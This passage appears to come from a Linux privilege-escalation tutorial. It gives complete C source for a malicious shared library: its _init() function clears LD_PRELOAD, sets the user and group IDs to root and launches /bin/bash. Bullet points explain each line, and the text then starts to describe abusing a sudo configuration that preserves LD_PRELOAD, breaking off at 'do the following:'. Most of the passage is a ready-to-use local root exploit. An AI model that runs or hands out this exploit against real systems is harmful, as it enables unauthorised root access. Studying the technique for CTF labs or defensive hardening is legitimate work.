 ```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
* save file as [x].c so it can be compiled.
* This code includes standard io,sys types, and standard libraries.
* Then it unsets the library preload which is LD_PRELOAD.
* Then set setgid and setuid to zero which is root.
* Then the system executes /bin/bash.



![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


This means we can run a script before any other libraries. When you run sudo -l and see this output do the following:
